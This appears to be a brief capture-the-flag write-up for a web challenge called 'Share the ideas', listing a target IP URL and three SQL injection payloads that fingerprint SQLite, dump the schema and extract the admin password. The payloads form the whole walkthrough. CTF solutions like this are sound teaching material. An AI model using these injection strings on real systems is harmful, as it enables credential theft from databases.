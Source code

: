 
## Level : Medium

#### Challenge Name : Share the ideas  
- Challenge Desciption
```
can you reveal the admin password ?
```
- Walk Throught
  - URL : http://35.197.204.100/shareideas/
  ```
  1. See in Input Board
  2. Then SQL Injection 
  - test' || ((SELECT sqlite_version()));--)
  - test' || (SELECT sql FROM sqlite_master));--
  - test' || (SELECT password FROM xde43_users WHERE role="admin"));--
  ```